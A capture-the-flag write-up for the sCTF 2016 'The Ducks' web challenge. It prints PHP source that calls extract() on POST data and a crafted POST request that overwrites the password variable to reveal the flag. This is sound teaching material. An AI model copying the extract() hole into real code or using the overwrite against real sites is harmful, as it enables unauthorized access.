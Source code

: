 ```yaml
---
layout: post
title: "sCTF 2016 Q1 : The Ducks"
author: dade
date: 2016-05-10 16:19:00 -0700
slug: ducks
category:
- 2016
- sctf-q1
---
```

**Category:** Web
**Points:** 30
**Description:** 

> [The ducks](http://ducks.sctf.michaelz.xyz) and I have an unfinished score to settle.

# Investigation
The ducks is a seemingly boring site, only prompting us for a password. But they are kind enough to provide us the source.php document, which shows us the entire source code for the page.

```php
<?php
include("secret.php");
?>
<html>
    <head>
        <title>The Ducks</title>
        <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1q8mTJOASx8j1Au+a5WDVnPi2lkFfwwEAa8hDDdjZlpLegxhjVME1fgjWPGmkzs7" crossorigin="anonymous">
        <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js" integrity="sha384-0mSbJDEHialfmuBBQP6A4Qrprq5OVfW37PRR3j5ELqxss1yVqOtnepnHVP9aJ7xS" crossorigin="anonymous"></script>
    </head>
    <body>
        <div class="container">
            <div class="jumbotron">
                <center>
                    <h1>The Ducks</h1>
                    <?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>
                    <form action="." method="POST">
                        <div class="row">
                            <div class="col-md-6 col-md-offset-3">
                                <div class="row">
                                    <div class="col-md-9">
                                        <input type="password" class="form-control" name="pass" placeholder="Password" />
                                    </div>
                                    <div class="col-md-3">
                                        <input type="submit" class="btn btn-primary" value="Submit" />
                                    </div>
                                </div>
                            </div>
                        </div>
                    </form>
                </center>
            </div>
            <p>
                <center>
                    source at <a href="source.php" target="_blank">/source.php</a>
                </center>
            </p>
        </div>
    </body>
</html>
```

In source.php we see an if statement that runs if our HTTP verb was POST. Then it extracts the variables from $_POST. Then it compares our $pass variable with the value of $thepassword_123, and if they are equal it will echo us out the flag! We just need to make those two values equal. Luckily, it appears to indiscriminately extract variables from $_POST, so we whip out a tool (Fiddler) to manually send a POST request.

# Solution
Instead of just submitting the $pass variable in the body of our POST, let's also submit $thepassword_123. So our POST looks something like

```
	POST http://ducks.sctf.michaelz.xyz HTTP/1.1
	Host: http://ducks.sctf.michaelz.xyz
	Content-Type: application/x-www-form-urlencoded;

	pass=Easyas123&thepassword_123=Easyas123
```

Now we can see what we got back from the server, and under the The Ducks header, we have an alert with the flag in it!

# Flag
```
sctf{maybe_i_shouldn't_have_extracted_everything_huh}
```

